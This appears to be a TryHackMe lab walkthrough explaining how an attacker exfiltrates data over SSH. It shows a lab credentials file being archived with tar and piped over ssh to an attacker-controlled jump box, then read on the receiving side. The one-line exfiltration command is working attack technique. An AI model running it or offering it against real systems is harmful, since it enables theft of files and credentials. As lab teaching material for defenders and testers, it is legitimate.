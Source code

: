 In this task we will show how to use SSH protocol to exfiltrate data over to an attacking machine. SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

![Encrypted SSH communication channel](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/aa723bb0e2c39dfc936b135c4912d1cf.png)  

To transfer data over the SSH, we can use either the Secure Copy Protocol SCP or the SSH client. Let's assume that we don't have the SCP command available to transfer data over SSH. Thus, we will focus more on the SSH client in this task.  

As we mentioned earlier, an attacker needs to control a server, which in this case has an SSH server enabled, to receive the exfiltrated data. Thus, we will be using the AttackBox as our SSH server in this scenario. You can also use the JumpBox since it has an SSH server enabled.  

Let's assume that we have gained access to sensitive data that must be transmitted securely.  Let's connect to the victim1 or victim2 machine.

The data that needs to be transferred  

```

thm@victim1:~$ cat task5/creds.txt admin:password Admin:123456 root:toor

```

Let's use the same technique we discussed in the "exfiltration using a TCP socket" task, where we will be using the tar command to archive the data and then transfer it.

Exfiltration data from the victim1 machine  

```
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"

```

Let's break down the previous command and explain it:  

1.  We used the tar command the same as the previous task to create an archive file of the task5 directory.
2.  Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.
3.  We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

If we check the attacker machine, we can see that we have successfully transmitted the file.

Checking the received data  

 ```
 thm@jump-box$ cd /tmp/task5/ 
 thm@jump-box:/tmp/task5$ cat creds.txt 
 admin:password 
 Admin:123456 
 root:toor
```